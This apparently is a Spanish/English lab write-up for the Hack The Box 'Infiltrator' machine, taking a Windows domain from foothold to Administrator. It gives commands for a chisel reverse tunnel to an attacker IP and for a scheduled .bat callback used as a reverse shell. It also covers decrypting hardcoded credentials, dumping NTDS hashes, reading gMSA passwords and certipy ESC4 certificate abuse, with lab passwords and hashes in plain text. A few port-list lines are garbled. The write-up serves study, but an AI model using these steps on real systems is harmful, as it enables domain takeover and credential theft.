  TCP    [::]:135               [::]:0                 LISTENING        svchost
  TCP    [::]: System System5               [::]:0                 LISTENING        System
  TCP    [::]:464               [::]:0                 LISTENING        lsass
  TCP    [::]:593               [::]:0                 LISTENING        svchost
  TCP    [::]:3389              [::]:0                 LISTENING        svchost
  TCP    [::]:5985              [::]:0                 LISTENING        System
  TCP    [::]:9389              [::]:0                 LISTENING        Microsoft.ActiveDirectory.WebServices
  TCP    [::]:14118             [::]:0                 LISTENING        OMServerService
  TCP    [::]:14122             [::]:0                 LISTENING        OMServerService
  TCP    [::]:1 System123             [::]:0                 LISTENING        System
  TCP    [::]:1 System125             [::]:0                 LISTENING        System
  TCP    [::]:14126             [::]:0                 LISTENING        outputmessenger_httpd
  TCP    [::]:14127             [::]:0                 LISTENING        OMServerService
  TCP    [::]:14128             [::]:0                 LISTENING        OMServerService
  TCP    [::]:14130             [::]:0                 LISTENING        OMServerService
  TCP    [::]:14406             [::]:0                 LISTENING        outputmessenger_mysqld
  TCP    [::]: System7001             [::]:0                 LISTENING        System
  TCP    [::]:49664             [::]:0                 LISTENING        wininit
  TCP    [::]:49665             [::]:0                 LISTENING        svchost
  TCP    [::]:49666             [::]:0                 LISTENING        svchost
  TCP    [::]:49667             [::]:0                 LISTENING        lsass
  TCP    [::]:49669             [::]:0                 LISTENING        svchost
  TCP    [::]:49690             [::]:0                 LISTENING        lsass
  TCP    [::]:49691             [::]:0                 LISTENING        lsass
  TCP    [::]:49696             [::]:0                 LISTENING        lsass
  TCP    [::]:49717             [::]:0                 LISTENING        services
  TCP    [::]:49727             [::]:0                 LISTENING        dns
  TCP    [::]:49756             [::]:0                 LISTENING        certsrv
  TCP    [::]:49868             [::]:0                 LISTENING        dfsrs
  TCP    [::1]:53               [::]:0                 LISTENING        dns
```






```
14123 - web
14125 - api
14127 File transfer
14128 File transfer
14130 File transfer
14406 DB - App
```

### Port Forwarding

`configuramos /etc/proxychains4.conf`

```zsh
./chisel server -p 8000 --reverse
```

```powershell
.\chisel.exe client 10.10.14.2:8000 R:1080:socks
```

### Output Messenger - TCP 14123



### Output Messenger - API 14125



### Output Messenger - 404 Page 14126



### Output Messegner

```r
K.turner
MessengerApp@Pass!
```




The Dev_Chat hace mencion a "our Output Wall"







### Output Wall

Output Wall es un plugin de Output Messenger: 
Desafortunadamente, la aplicación no puede ejecutarse correctamente a través de un túnel SOCKS, por lo que debemos redireccionar cada puerto individualmente. Por lo tanto, usaré msfconsole para ejecutar el binario sin PowerShell, lo cual me funcionó.

https://www.outputmessenger.com/lan-messenger-downloads/

```powershell
chisel.exe client 10.10.14.2:8000 R:14118:127.0.0.1:14118 R:14119:127.0.0.1:14119 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14124:127.0.0.1:14124 R:14125:127.0.0.1:14125 R:14126:127.0.0.1:14126 R:14127:127.0.0.1:14127 R:14128:127.0.0.1:14128 R:14129:127.0.0.1:14129 R:14130:127.0.0.1:14130 R:14406:127.0.0.1:14406
```



Nos conectamos como K.Turner



Y funciono a la perfeccion.

Nos muestra una interfaz muy similar al de la web con opciones adicionales:

Sign In as K.Turner, it shows a similar interface web with additional options:



La App Wall tiene una publicacion 



- UserExplorer conh credenciales.



- Validate Credentials

```zsh
nxc smb infiltrator.htb -u 'm.harris' -p 'D3v3l0p3r_Pass@1337!' -k
```



```r
m.harris
D3v3l0p3r_Pass@1337!
```

### Output Messenger as M.Harris


### UserExplorer.exe

Al ejecutarse en una máquina virtual de Windows, no se puede conectar a un servidor (lo cual tiene sentido ya que mi máquina virtual de Windows no está conectada a la VPN HTB en este momento):



- Reversing `UserExplorer.exe` con DotPeek.


``LdapApp function`

```c
internal class LdapApp
{
  private static void Main(string[] args)
  {
    string path = "LDAP://dc01.infiltrator.htb";
    string username = "";
    string password = "";
    string str1 = "";
    string str2 = "winrm_svc";
    string cipherText = "TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=";
```

Podemos ver que la  string ``cipherText`` esta en base64.

```c
for (int index = 0; index < args.Length; index += 2)
    {
      switch (args[index].ToLower())
      {
        case "-u":
          username = args[index + 1];
          break;
        case "-p":
          password = args[index + 1];
          break;
        case "-s":
          str1 = args[index + 1];
          break;
        case "-default":
          username = str2;
          password = Decryptor.DecryptString("b14ca5898a4e4133bbce2ea2315a1916", cipherText);
          break;
        default:
          Console.WriteLine($"Invalid argument: {args[index]}");
          return;
      }
    }
```

La clave es UTF-8 (no hexadecimal) y el texto cifrado se decodifica en base64 y luego se pasa a AES.

```c
if (!string.IsNullOrEmpty(username) && !string.IsNullOrEmpty(password))
    {
      if (!string.IsNullOrEmpty(str1))
      {
        try
        {
          Console.WriteLine("Attempting Service Connection...");
          using (DirectoryEntry searchRoot = new DirectoryEntry(path, username, password))
          {
            Console.WriteLine("Service Connection Successful.");
            using (DirectorySearcher directorySearcher = new DirectorySearcher(searchRoot))
            {
              directorySearcher.Filter = $"(SAMAccountName={str1})";
              Console.WriteLine($"Search for {str1} user...");
              SearchResult one = directorySearcher.FindOne();
              if (one != null)
              {
                Console.WriteLine("User found. Details:");
                DirectoryEntry directoryEntry = one.GetDirectoryEntry();
                Console.WriteLine($"Name: {directoryEntry.Properties["cn"].Value}");
                Console.WriteLine($"EmailID: {directoryEntry.Properties["mail"].Value}");
                Console.WriteLine($"Telephone Extension: {directoryEntry.Properties["telephoneNumber"].Value}");
                Console.WriteLine($"Department: {directoryEntry.Properties["department"].Value}");
                Console.WriteLine($"Job Title: {directoryEntry.Properties["title"].Value}");
                return;
              }
              Console.WriteLine("User not found.");
              return;
            }
          }
        }
        catch (Exception ex)
        {
          Console.WriteLine($"An error occurred: {ex.Message}");
          return;
        }
      }
    }
    Console.WriteLine("Usage: UserExplorer.exe -u <username> -p <password>  -s <searchedUsername> [-default]");
    Console.WriteLine("To use the default credentials: UserExplorer.exe -default -s userToSearch");
  }
}

```

- Decrypting Secret

[CyberChef.io](https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'UTF8','string':'b14ca5898a4e4133bbce2ea2315a1916'%7D,%7B'option':'Hex','string':'0000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=VEdsdTIyb284R0lIUmtKQkJwWjFuUS94NmwzNk1WajNVa3Y0SHc4NnFHRT0)


decrypt again

[CyberChef.io](https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'UTF8','string':'b14ca5898a4e4133bbce2ea2315a1916'%7D,%7B'option':'Hex','string':'0000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=U0txd1FrODF0Z3ErQzNWN3B6YzFTQT09)


```r
WinRm@$svc^!^P
```

### WinRm

- Validate Credentials


```zsh
nxc winrm infiltrator.htb -u winrm_svc -p 'WinRm@$svc^!^P'
```


## Shell as O.Martinez

- Output Messenger como winrm_svc


```r
lan_managment  api key 558R501T5I6024Y8JV3B7KOUN1A518GG
```


- Enumeration

`whoami /groups`


Podemos ver un directorio Output Messenger que llama mucho la atencion en winrm_svc’s :


Ambos archivos son SQLite!

### DB Enumeration

- OT.db3

`.tables`

```
m_chatroom               om_drive_files            om_preset_message       
om_chatroom_user          om_escape_message         om_reminder             
om_custom_group_new       om_hide_usergroup         om_settings             
om_custom_group_user_new  om_notes                  om_user_master          
om_custom_status          om_notes_user             om_user_photo
```


Hay algo de informacion, pero nada que nos interese.

### Output Messenger API

Volvemos a la API Key desde outputmessenger como winrm_svc.

https://support.outputmessenger.com/authentication-api/


```zsh
curl localhost:14125/api/users
```


```zsh
curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" localhost:14125/api/users
```

```r
{"rows":[{"user":"admin","displayname":"Admin","group":"Administration","role":"A","email":"","phone":"","title":"","status":"online"},{"user":"D.anderson","displayname":"D.anderson","group":"Marketing Team","role":"U","email":"anderson@infiltrator.htb","phone":"+0 123 443 699","title":"Marketing","status":"offline"},{"user":"L.clark","displayname":"L.clark","group":"Marketing Team","role":"U","email":"clark@infiltrator.htb","phone":"+0 123 443 699","title":"Marketing","status":"offline"},{"user":"M.harris","displayname":"M.harris","group":"Developers","role":"U","email":"harris@infiltrator.htb","phone":"+0 123 443 699","title":"Developer","status":"offline"},{"user":"O.martinez","displayname":"O.martinez","group":"Others","role":"U","email":"martinez@infiltrator.htb","phone":"","title":"Chief Marketing Officer","status":"online"},{"user":"A.walker","displayname":"A.walker","group":"Others","role":"U","email":"walker@infiltrator.htb","phone":"","title":"Co Founder","status":"offline"},{"user":"K.turner","displayname":"K.turner","group":"QA Testers","role":"U","email":"turner@infiltrator.htb","phone":"","title":"QA Tester","status":"offline"},{"user":"E.rodriguez","displayname":"E.rodriguez","group":"Digital Influencer Marketing","role":"U","email":"rodriguez@infiltrator.htb","phone":"+0 123 443 699","title":"Digital Influencer","status":"offline"},{"user":"winrm_svc","displayname":"winrm_svc","group":"Management and Security","role":"U","email":"winrm_svc@infiltrator.htb","phone":"+0 123 443 699","title":"Services Managment","status":"online"},{"user":"Developer_01","displayname":"Developer_01","group":"Developers","role":"U","email":"Developer_01@infiltrator.htb","phone":"","title":"Developer","status":"offline"},{"user":"Developer_02","displayname":"Developer_02","group":"Developers","role":"U","email":"Developer_02@infiltrator.htb","phone":"","title":"Developer_02","status":"offline"},{"user":"Developer_03","displayname":"Developer_03","group":"Developers","role":"U","email":"Developer_03@infiltrator.htb","phone":"","title":"Developer_03","status":"offline"}],"success":true}
```

https://support.outputmessenger.com/chat-room-api/

- ChatRooms

```zsh
curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" localhost:14125/api/chatrooms -s | jq
```

```json
  "rows": [
    {
      "room": "Chiefs_Marketing_chat",
      "roomusers": "O.martinez|0,A.walker|0"
    },
    {
      "room": "Dev_Chat",
      "roomusers": "Admin|0,M.harris|0,K.turner|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "General_chat",
      "roomusers": "Admin|0,D.anderson|0,L.clark|0,M.harris|0,O.martinez|0,A.walker|0,K.turner|0,E.rodriguez|0,winrm_svc|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "Marketing_Team_chat",
      "roomusers": "D.anderson|0,L.clark|0"
    }
  ],
  "success": true
}
```

- Recuperar un registro de una sala de chat.

```zsh
curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" localhost:14125/api/chatrooms/logs?=20240220014618@conference.com -s | jq
```


(picking an arbitrary time range)

```zsh
curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" 'localhost:14125/api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2023/03/12&todate=2024/09/24' -s | jq
```

Nos generará un montón de datos html, pero en la última línea de la parte inferior podemos ver las credenciales.


Podemos guardar los logs en un archivo

```zsh
curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" 'localhost:14125/api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2023/03/12&todate=2024/09/24' -s | jq .logs -r > Chiefs-marketing-chat.html
```


```r
O.martinez
m@rtinez@1996!
```

### Output Messenger

Con las credenciales que tenemos, no son validas.


Tambien no hay nada nuevo en los chats como O.Martínez que no haya visto ya.

### Calendar Execution

- Enumeration


- PoC with Ping

```zsh
echo 'ping -n 1 10.10.14.2' > ping_test.bat
```

Subimos el archivo a infiltrator en la ruta: `C:\ProgramData\ping_test.bat`


In kali:

```zsh
sudo tcpdump -ni tun0 icmp
```

Validamos que funciona


Ahora creamos otro archivo en la máquina windows en la misma ruta `C:\ProgramData\ping_test.bat`


Y obténemos el mismo resultado de 10.10.11.31(Infiltrador)


### Shell as O.Martinez

Nosotros vamos a hacer el mismo proceso con una carcasa inversa.


Works likes impersonation, the file rev.bat on my windows vm supposed to be the file in the Funciona como suplantación, se supone que el archivo rev.bat en mi máquina virtual de Windows es el archivo en la máquina infiltrator y ese es el que se ejecuta (archivo en infiltrator).

## Shell as Lan_mangment

Siguiendo la misma enumeración antes de encontrar el archivo pcapng


Para descargarlo, yo copie el archivo a ProgramData, ahi comumente hay permisos de escritura.

```zsh
Move-Item -Path "C:\Users\O.martinez\AppData\Roaming\Output Messenger\FAAA\Received Files\203301\network_capture_2024.pcapng" -Destination "C:\ProgramData\network_capture_2024.pcapng" -Force
```


Cuando descargo el archivo en Linux, aparece que tiene 0 bytes, lo cual es un problema con los permisos.


```powershell
Get-Acl -Path "C:\temp\network_capture_2024.pcapng" | Format-List
```


Podemos modificar los permisos.

```powershell
$acl = Get-Acl -Path "C:\temp\network_capture_2024.pcapng"
$perm = "winrm_svc", "FullControl", "Allow"
$rule = New-Object System.Security.AccessControl.FileSystemAccessRule($perm)
$acl.SetAccessRule($rule)
$acl | Set-Acl -Path "C:\temp\network_capture_2024.pcapng"
```

```powershell
Get-Acl -Path "C:\temp\network_capture_2024.pcapng" | Format-List
```


Ahora podemos decargar el archivo via winrm


### Network_capture_2024.pcapng

#### WireShark

Statistics -> Conversations -> TCP


Muestra que 192.168.128.232 es el host donde se realiza la recopilación. También hay tráfico HTTP(S) y varias conexiones a TCP 5000 en otro host con una IP privada, 192.168.1.106.

- Flask - File Hosting


`authorization=securepassword`


`location: /files`


File -> Export Objects -> HTTP 


Lo guardaré en BitLocker-backup.7z de mi host.


Hay un POST en /api/change_auth_token, con una nueva contraseña establecida en el encabezado.


```zsh
O.martinez
M@rtinez_P@ssw0rd!
```


Parece no funcionar con WinRM pero en RDP funciona.


### BitLocker-backup.7z

#### Get Access

```
7z x BitLcoker-backup.7z
```


El output va hacia un archivo debido que es muy largo, aparte que es mas comodo y rapido.

```zsh
7z2john BitLocker-backup.7z | tee BitLocker-backup.7z.hash > hash2john
```

### HashCat

```zsh
hashcat hash2john --user /usr/share/wordlists/rockyou.txt
```


- Recovery Key

```
650540-413611-429792-307362-466070-397617-148445-087043
```
### RDP

- Connect

```zsh
xfreerdp3 /u:o.martinez /p:'M@rtinez_P@ssw0rd!' /v:10.10.11.31 /d:dc01.infiltrator.httb
```

- Access E:

Hay una unidad `E:` que está bloqueada.


Usamos el Recovery Key que encontramos anteriormente en la web.


```powershell
Compress-Archive -Path 'E:\Windows Server 2012 R2 - Backups\' -DestinationPath C:\temp\Ee.zip
```


Movemos a c:\temp para descargar con evil-winrm como winrm_svc

`7z x Backup_Credentials.7z`


NTDS.DIT es una base de datos de AD (Active Directory). Contiene toda la información crítica del dominio, incluyendo credenciales, usuarios, grupos y políticas.

### Backup Passwords

- Dump Hashes

```zsh
secretsdump.py -security registry/SECURITY -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL
```


Guardaré las credenciales ntlm y las usaré para crear un archivo de usuario y un archivo de contraseñas:

```zsh
cat ntlm | cut -d: -f1 > users
cat ntlm | cut -d: -f2-4 > passwords
```

Pero ningún hash funciono para ningún usuario.


#### NTDS Enumeration

[Github - ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)

```zsh
ntdsdotsqlite Active\ Directory/ntds.dit --system registry/SYSTEM -o ntds.sqlite
```


`select commonname,description from user_accounts;`


```r
lan_managment
l@n_M@an!1331
```


## Auth as Infiltrator_svc


Hay 2 maneras para leer el GMSA password

- gMSADumper
```zsh
python3 gMSADumper.py -u lan_managment -p 'l@n_M@an!1331' -d infiltrator.htb
```

- NetExec
```zsh
nxc ldap infiltrator.htb -u lan_managment -p 'l@n_M@an!1331' --gmsa
```


```r
infiltrator_svc$
653b2726881d6e5e9ae3690950f9bcc4
```

```zsh
nxc smb infiltrator.htb -u 'infiltrator_svc$' -H '653b2726881d6e5e9ae3690950f9bcc4'
```


No funciona sobre winRM


## Shell as Administrator

### ADCS Enumeration

```zsh
nxc ldap infiltrator.htb -u 'infiltrator_svc$' -H '653b2726881d6e5e9ae3690950f9bcc4' -M adcs
```

[Certipy](https://github.com/ly4k/Certipy) usará estas credenciales para buscar configuraciones vulnerables:

```zsh
certipy-ad find -vulnerable -dc-ip 10.10.11.31  -u 'infiltrator_svc$' -hashes ':653b2726881d6e5e9ae3690950f9bcc4' -stdout
```


### ESC 4 Exploit

```zsh
certipy-ad template -u 'infiltrator_svc$' -hashes ':653b2726881d6e5e9ae3690950f9bcc4' -dc-ip 10.10.11.31 -template Infiltrator_Template -write-default-configuration
```


Si vuelvo a ejecutar el comando anterior, podemos ver que ahora es muy vulnerable.


Necesitamos ejecutar ambos comandos (plantilla y req) para obtener .pfx

```zsh
certipy-ad req -u 'infiltrator_svc$' -dc-ip 10.10.11.31 -target-ip 10.10.11.31 -hashes ':653b2726881d6e5e9ae3690950f9bcc4' -template Infiltrator_Template -upn administrator@infiltrator.htb -ca 'infiltrator-DC01-CA'
```

- Para explotar ESC1, hago un request al certificado para el administrador


El subcomando ``auth`` toma ese archivo ``.pfx`` y devuelve un TGT y el hash NTLM

```zsh
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.31
```


> certipy-ad template -u 'infiltrator_svc$' -hashes ':653b2726881d6e5e9ae3690950f9bcc4' -dc-ip 10.10.11.31 -template Infiltrator_Template -write-configuration Infiltrator_Template.json 

> Con esto volvemos a poner el template original en infiltrator (Con el find de ser detectados o ser mas sigilosos)

### Validate Creds

```zsh
nxc smb infiltrator.htb -u administrator -H aad3b435b51404eeaad3b435b51404ee:1356f502d2764368302ff0369b1121a1
```


```zsh
evil-winrm -i 10.10.11.31 -u 'administrator' -H '1356f502d2764368302ff0369b1121a1'
```


